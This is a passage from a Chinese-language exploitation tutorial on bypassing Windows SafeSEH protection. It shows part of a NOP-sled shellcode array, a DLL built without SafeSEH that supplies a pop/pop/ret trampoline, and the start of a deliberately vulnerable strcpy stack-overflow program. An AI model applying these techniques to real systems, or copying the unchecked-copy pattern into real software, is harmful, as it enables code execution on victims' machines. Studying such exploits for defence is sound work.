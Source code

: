 ```bash
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0xA0, 0x79, 0x68, 0x00 
};
```

这样我们就可以利用 SafeSEH 保护机制在堆区有特权的特性，即可执行 shellcode。

## 4.利用未启用 SafeSEH 的模块突破 SafeSEH

大家回想一下前面我们讲过的 SafeSEH 的校验，如果说异常处理不在本模块中怎么办？如果说该模块未启用 SafeSEH，就可以执行。  
那我们新的攻击思路就出来了：我们可以将异常处理指针指向一个未启用 SafeSEH 的模块，在这个模块中找一些指令，作为跳板地址，是不是就可以跳转到我们的 ShellCode 上执行？  
我们来详细看看这中突破方法：  
首先，我们需要一个未启用 SafeSEH 的模块，这里我们创建一个动态链接库，让程序调用：

```bash
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"

void jump() {
    __asm {
        pop eax
        pop eax
        retn
    }
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

然后我们编写存在漏洞的程序：

```bash
#define _CRT_SECURE_NO_WARNINGS
#include <stdio.h>
#include <Windows.h>

char MyPayload[500];

DWORD MyException(void) {
    printf("This is My exception!");
    getchar();
    return 1;
}

void test(char* szBuffer) {
    char str[200]{ 0 };
    strcpy(str, szBuffer);
    int zero = 0;
    __try {
        zero = 1 / zero;
```
